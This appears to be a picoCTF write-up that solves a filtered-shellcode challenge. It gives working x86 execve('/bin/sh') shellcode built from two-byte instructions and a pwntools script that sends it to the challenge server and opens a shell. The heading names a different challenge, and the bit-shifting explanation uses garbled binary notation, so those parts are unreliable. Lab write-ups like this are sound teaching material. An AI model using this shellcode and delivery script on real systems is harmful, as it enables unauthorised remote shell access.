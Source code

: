 # Writeup - Unsubscriptions are free
Category: Binary Exploitation, Points: 160


## Descpriton

> A program that just runs the code you give it? That seems kinda boring... 

We can connect to it with ` nc mercury.picoctf.net 37853` and a 32-bit binary file is shared.


## Vulnerability

If we decompile the binary through `ghidra` we get two functions inside the file. `main` and `execute`. The `main` function simply reads input character by character but the `execute` function is important.

Code for the `execute` function.

```c
void execute(int shellcode,int len)
{
  uint uVar1;
  undefined4 uStack48;
  undefined auStack44 [8];
  undefined *local_24;
  undefined *local_20;
  uint local_1c;
  uint double_len;
  int local_14;
  uint i;
  int j;
  int start;
  
  uStack48 = 0x8048502;
  if ((shellcode != 0) && (len != 0)) {
    double_len = len * 2;
    local_1c = double_len;
    start = ((double_len + 0x10) / 0x10) * -0x10;
    local_20 = auStack44 + start;
    local_14 = 0;
    for (i = 0; j = local_14, i < double_len; i = i + 1) {
      uVar1 = (uint)((int)i >> 0x1f) >> 0x1e;
      if ((int)((i + uVar1 & 3) - uVar1) < 2) {
        local_14 = local_14 + 1;
        auStack44[i + start] = *(undefined *)(shellcode + j);
      }
      else {
        auStack44[i + start] = 0x90;
      }
    }
    auStack44[double_len + start] = 0xc3;
    local_24 = auStack44 + start;
    *(undefined4 *)(auStack44 + start + -4) = 0x80485cb;
    (*(code *)(auStack44 + start))();
    return;
  }
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

This function basically runs shellcode, except if for every 2 bytes of shellcode it replaces the bytes with `0x90`. `0x90` means `nop`. So, if our shellcode is just written as is. It would be replaced with `0x90` for every 2 bytes.

Hence, our shellcode must have instructions that are at most 2 bytes long. 

The main idea is to call `execve("//bin/sh", NULL, NULL)`. But to do this successfully, our shellcode has to have 2-byte instructions. 

We can do this by converting assembly code into shellcode, with `pwntools`. So the main task is to come up with the assembly code to call `execve("//bin/sh", NULL, NULL)`.


## Exploit

The hard part is not calling `//bin/sh` with `execve`. It is writing the shellcode.

For context. `eax, ebx, ecx, edx` are general purpose registers. Each register has a purpose. With respect to the problem at hand `eax` acts like the function invoker. `ebx` is generally the first argument to the function, then `ecx` is second, `edx` is third so on.

To know more about 32-bit calling conventions. Visit this [page](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)

The basic plan:

1. Push `//bin/sh` on to the stack, so that `esp` points to it.
2. Put `//bin/sh` into the `ebx` register and assign `ecx` and `edx` to `0`.
3. `mov al, 11` to `eax`. `11` is the 32-bit syscall for `execve`.
4. `int 0x80` to call `execve` which would have `ebx` as the first argument.

```assembly
; Push //bin/sh on stack (one more slash to avoid null byte)
xor eax, eax
push eax
push `n/sh`
push `//bi`

; Set parameters
mov ebx, esp
xor ecx, ecx
xor edx, edx

; call execve
mov al, 11
int 0x80

; exit
mov al, 1
xor ebx, ebx
int 0x80
```

Now this is quite straightforward except that we need create 2-byte instruction shellcode.

Let's focus on how to trim each instruction to 2-bytes. If we now dig deeper into assembly x86, for each GP register, we have a way the data is stored.

```console
eax -> 00000000 00000000 00000000 00000000 
## If we set eax to something, say 104 -> mov al, 104
eax -> 00000000 00000000 00000000 00000104
## eax is 32 bit or 4 bytes long
## So, if can move the value towards the MSB we would have a 2-byte instruction.
```

To make a 2 byte instruction in `eax` we should keep multiplying `eax` into `16*16`. Since the binary for `256` is `100000000`, this would shift the value in `eax` by 8 bits. Which would inturn to this.

```console
eax -> 00000000 00000000 00000104 00000000
## Now eax contains a 2-byte instruction
```

Here is the final exploit.

```python
## this code is shamelessly copied - the refrence link has the original

import sys

from pwn import *

shellcode = """
/* set all GPRs to 0 */
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx

/* set the lower bit ebx to 16 */
mov bl, 16

/* push nop to esp */
push ecx
nop

/* n/sh -> (110, 47, 115, 104) */
mov al, 104
mul ebx
mul ebx
mov al, 115
mul ebx
mul ebx
mov al, 47
mul ebx
mul ebx
mov al, 110
push eax
nop

/* //bi -> (47, 47, 98, 105) */
xor eax, eax
mov al, 105
mul ebx
mul ebx
mov al, 98
mul ebx
mul ebx
mov al, 47
mul ebx
mul ebx
mov al, 47
push eax
nop

/* syscall to execve (eax ebx) */
xor eax, eax
mov al, 11
mov ebx, esp
int 0x80

/* exit call to set ebx to 0*/
mov al, 1
xor ebx, ebx
int 0x80
"""

print(asm(shellcode))

sh = remote("mercury.picoctf.net", "37853") if sys.argv[1] == "remote" else process("./fun")
sh.recvuntil("run:")
sh.sendline(asm(shellcode))
sh.interactive()
```

You should get the flag.


## Reference
[Link](https://github.com/apoirrier/CTFs-writeups/blob/master/PicoCTF/Pwn/filtered-shellcode.md)

